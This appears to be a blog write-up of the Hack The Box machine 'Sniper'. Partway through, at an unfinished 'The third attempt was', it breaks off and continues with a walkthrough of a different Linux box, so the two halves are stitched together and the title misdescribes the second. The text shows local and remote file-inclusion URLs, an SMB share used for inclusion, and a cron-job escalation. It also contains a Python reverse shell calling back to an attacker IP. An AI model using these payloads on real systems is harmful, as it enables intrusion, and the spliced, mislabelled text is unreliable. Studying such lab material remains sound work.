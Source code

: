 ```yaml
---
title: "Sniper"
date: 2023-06-24T23:52:47+02:00
tags: ["privesc","web","windows","smb"]
categories: ["hackthebox"]
author: "Ro Hackss"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
description: ""
canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "<image path/url>" # image path/url
    alt: "<alt text>" # alt text
    caption: "<text>" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page
editPost:
    URL: "https://github.com/pwndside/pwndside.github.io/content"
    Text: "Suggest Changes" # edit text
    appendFilePath: true # to append file path to Edit link
---
```



## Room Information

- Room name: Sniper
- Difficulty level: Medium
- Room link: https://app.hackthebox.com/machines/Sniper

![Untitled](/HTB/Sniper.png)

## Tools Used

- nmap
- gobuster
- whatweb
- 

## Port Scanning

![Untitled](/HTB/escaneo-sniper.png)

In the port scan we can see that there are multiple ports open, like 80 (web server), 445 (Samba) ...

## Enumeration

As always first thing i'm going to do is:

```bash
whatweb 10.10.10.151
```
![/Untitled](/HTB/whatweb-sniper.png)

This results show me that the JQuery version is relatively outdated, and the machine is Windows.

So let's find something on the web:
 - First thing as always do ctrl+shift+u to see the source code of the page (nothing relevant)

Soon I realized this error that had the page:

![Untitled](/HTB/php-error-sniper.png)


Here I leave the commands I used to test the error until I realized that I was indeed facing a vulnerability:

```bash
http://10.10.10.151/blog/?lang=test
http://10.10.10.151/blog/?lang=\Windows\System32\Drivers\etc\hosts
http://10.10.10.151/blog/?lang=\inetpub\wwwroot\index.php -> with the intention that I return the php code of the page
http://10.10.10.151/blog/?lang=php://filter/convert.base64-encode/resource=\inetpub\wwwroot\index.php -> with the intention 
that we do not interpret the PHP code
```
Now instead of try to introduce a local element of the machine, I'm going to try to introduce a extern element of my
fisical sistem:
	
 - The first attempt was to open a web server with *python3 -m http.server 80* and then modify the url of the machine 
   like this *http://10.10.10.151/blog/?lang=http://10.10.14.5/nmap*, to try to point to my address and see 
   if I received any requests. Nothing well.
	
 - The second attempt was to create a server with SMB  with *smbserver.py smbFolder $(pwd) -smb2support* to share the 
   smbfolder folder and modify the url as follows *http://10.10.10.151/blog/?lang=//10.10.14.5/smbFolder/test*. 
   We have connection !!!
   
   ![Untitled](/HTB/smbserver-sniper.png) 
  
   what should happen is that we would have to see the NTLM hash of version 2, but in this case it does not come out, 
   so maybe we are having a problem with the service we are offering, and we are also supporting version 2 of smb. 

 - The third attempt was


If we visit the website there are only one article with a web reverse shell information called phpbash, and a url to the github project.

In the url we can find some useful information like how works, this shell removes the necessity of do a traditional reverse shell.

Let’s try this but first some fuzzing

![Untitled](/HTB/bashed-6.png)

We can see that there is a uploads directory maybe we can try to upload a reverse shell.

With nikto, I found that the /dev directory maybe its useful

![Untitled](/HTB/bashed-7.png)

Inside the directory, there are two files, the two of them are the reverse shell which we have seen in the previous github project (seems like a reverse shell to his own machine). If we try to run one we get in.

## Gaining an Initial Foothold

![Untitled](/HTB/bashed-8.png)

We are logged like the web service and the user flag is in the arrexel home directory.

![Untitled](/HTB/bashed-9.png)

Now let’s elevate privilege

If we go to the / directory we can see that inside there is a script folder created by scriptmanager user.

When we try sudo -l we found that the the www-data user has acces to scriptmanager as sudo.

Let’s try `sudo -u scriptmanager -e /bin/bash` 

![Untitled](/HTB/bashed-10.png)

Don’t seem to work, maybe the web server doesn’t allow some commands.

Now let’s try to upload the reverse shell and this time trying to connect it to our machine instead of using the shell on /dev.

One way is to create a http server and curl the file in the victim machine. We need to modify the reverse shell file that I get [here](https://pentestmonkey.net/tools/web-shells/php-reverse-shell) with our ip and port.

![Untitled](/HTB/bashed-11.png)

![Untitled](/HTB/bashed-12.png)

Now let’s open a listening port with netcat and run the shell.

![Untitled](/HTB/bashed-13.png)

![Untitled](/HTB/bashed-14.png)

Before nothing, we are going to pass from a dumb shell to a fully interactive one.

First once we spawn a bash with `python -c 'import pty; pty.spawn("/bin/bash")'` then lets keep the nc in background with ctrl^z, once done we use `stty raw -echo` and then `fg` to return to the web shell but fully interactive this time.

Let’s retry `sudo -u scriptmanager /bin/bash`

![Untitled](/HTB/bashed-15.png)

We are scriptmanager now, let’s see what we can do in the /scripts folder. It’s seems like there are two files in the folder. One of them [test.py](http://test.py) look like this:

```bash
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

This file is created by scriptmanager but the execution of the file needs be owned by root somehow because inside the execution we are opening the test.txt file that only can be modified with root permissions. If you observe the creation time of the file test.txt, you will notice that it undergoes changes every minute. This pattern strongly suggests the presence of a cron job, which is owned by the root user, and is responsible for executing the test.py script every minute.

We can use this to our advantage and change the content of the [test.py](http://test.py) file to a reverse shell and get the system own.

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.17",1234)) //change this
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

I get this reverse shell from [pentestmonkey’s](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) handy dandy list of reverse shells.

Let’s set up a listener in the port 1234 and let the magic happen.

![Untitled](/HTB/bashed-17.png)

## Lessons Learned

- What insights did you gain from the room?
    
    I acquired knowledge on the functioning of a cron job and discovered ways to exploit it for potential machine compromise.
    
- Were there any novel tools or techniques employed?
    
    Notably, the utilization of nikto and various reverse shells were introduced.

**Thank you for reading, and happy hacking! 😄**
